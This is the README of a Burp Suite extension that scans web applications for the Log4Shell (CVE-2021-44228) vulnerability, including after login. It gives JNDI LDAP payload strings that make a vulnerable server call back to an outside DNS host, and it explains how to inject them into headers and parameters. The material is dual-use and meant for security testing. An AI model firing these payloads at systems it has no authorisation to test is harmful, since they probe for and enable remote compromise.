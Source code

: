 <h1 align="center">
  <br>
  Log4J Scanner
</h1>

<h4 align="center">Burp extension to scan Log4Shell (CVE-2021-44228) vulnerability pre and post auth.</h4>

---

<p align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/release/0xDexter0us/Log4J-Scanner.svg">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
      <img src="https://img.shields.io/github/stars/0xDexter0us/Log4J-Scanner.svg?style=social&label=Stars">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
    <img src="https://img.shields.io/github/followers/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=0xDexter0us">
      <img src="https://img.shields.io/twitter/follow/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://discord.gg/bugbounty">
      <img src="https://img.shields.io/badge/chat-on%20discord-7289da.svg">
  </a>

</p>

---
## Disclaimer
> I am not responsible for your actions, burp-suite freezing, target getting hacked, thermonuclear war, or the current economic crisis caused by you following these directions. YOU are choosing to use this tool, and if you point your finger at me for messing anything up, I will LMAO at you.

---
![Log4J-Scanner](https://github.com/0xDexter0us/Log4J-Scanner/images/log4j-scanner.png)

## Instructions:
 - Add a DNS token from any service you prefer [interact.sh](https://app.interactsh.com), [pipedream](https://pipedream.com), [canarytokens](https://canarytokens.org), [dnslog.cn](https://dnslog.cn) or burp collaborator.
 - Either select one of the pre-defined payload or add a custom payload.
 - Add custom payload as: `${jndi:ldap://[dnstoken]/[random]` as `dnstoken`and `random` are place-holders, also remember __NOT__ to add `}`closing curly bracket.
 - Select location for payload insertion, headers or parameters or both.
 - For post-auth scanning add the complete cookie, auth header. Eg: `Authorization: Bearer ya29.m.CvkBAd1XLWYfLkuHFIuOYFCfcGI137rr...`
 - Hit **Hack The Planet** button.

### Important instructions to remember:

 - You'll need [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) extension to trace the request triggering the DNS callback.
 - Remember to add this extension above [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to track all out going requests.

 ![Burp-Externder](https://github.com/0xDexter0us/Log4J-Scanner/images/extender.png)

### How to track callbacks:

- Payload triggering callback will contain a 6 character unique ID
- Example payload `${jndi:ldap://example.interact.sh/ABC123` where `ABC123` will be the unique ID
- You can search for this ID in [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to trace the request.

## Download releases
`https://github.com/0xDexter0us/Log4J-Scanner/releases/`

## Build from source
* `./gradlew build fatJar`
* Grab the jar file `build/libs/Log4J-Scanner-x.x.x.jar`

## Installation
1. Download the latest jar from releases or build from source.
2. Add the jar to Burp Suite.



#### If you like the project, please give the repo a star! <3

## Resources

- For passive scanning: `https://github.com/f0ng/log4j2burpscanner`
- For active scanning: `https://github.com/albinowax/ActiveScanPlusPlus`


## Changelog

**13 December 2021 - v.0.1.0**
 - First public release

## Thanks To

* CoreyD97 - https://github.com/CoreyD97


### This was coded be me within a day and is an initial release, bug might occur, bug reports, suggestions and pull requests all are welcome :)

-----

[![Join our Discord server!](https://invidget.switchblade.xyz/bugbounty)](http://discord.gg/bugbounty)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Q5Q76ZT6K)
